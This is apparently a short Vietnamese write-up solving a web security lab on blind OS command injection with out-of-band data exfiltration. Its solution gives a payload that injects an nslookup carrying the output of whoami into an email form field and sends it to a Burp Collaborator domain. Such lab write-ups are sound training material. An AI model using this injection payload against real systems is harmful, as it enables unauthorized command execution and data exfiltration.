



### Giải quyết
- Tương tự lab `Blind OS command injection with out-of-band interaction`. Tuy nhiên ở đây cần thực thi câu lệnh `whoami` và trích xuất output. 
- Để làm điều này chỉ cần thêm tên miền phụ cho tên miền chính từ Burp Collaborator.
- Payload: 
>email=aaaa%40gmail.com;nslookup+\`whoami\`.ciy2322d0bcshth3tcjxvmsnpev8jx.burpcollaborator.net;#&subject=...

###### Solved!
